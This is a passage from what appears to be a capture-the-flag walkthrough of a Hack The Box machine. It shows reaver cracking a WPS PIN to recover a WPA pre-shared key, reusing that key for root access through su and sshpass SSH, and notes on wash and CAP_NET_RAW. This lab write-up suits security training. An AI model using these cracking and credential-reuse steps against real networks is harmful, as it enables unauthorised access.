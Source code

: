     [+] Pin cracked in 2 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
    [+] AP SSID: 'OpenWrt'
    [+] Nothing done, nothing to save.



Very quickly it is able to crack the WPA password (or pre-shared key
(PSK)) for the wireless network.

### su / SSH

This password works as the password for root on the box, either with
`su` in an existing session:



    netadmin@wifinetic:~$ su -
    Password: 
    root@wifinetic:~#



Or starting a new SSH session:



    oxdf@hacky$ sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)
    ...[snip]...
    root@wifinetic:~# 



Either way, I can grab `root.txt`:



    root@wifinetic:~# cat root.txt
    b8e6c359************************



## Beyond Root

### Background

Most tutorials showing how to run `reaver` will use something like
`wash -i mon0` to get the BSSIDs of the available networks and enumerate
is the WPS is locked (which makes the brute force much less likely to
work).

`wash` is a tool that comes as part of `reaver`, and is meant to
enumerate networks. But it requires the `CAP_NET_RAW` capability, just
like `reaver` does.

It is unusual to be performing this attack without root on the attacking
box. Typically, this attack is done from attacker controller hardware in
local proximity to the WiFi network. But even if someone is doing it
from a compromised box, they will need root, as it is *very* unlikely to
find `reaver` sitting around with the necessary capabilities in the real
world as is the case here for HTB.
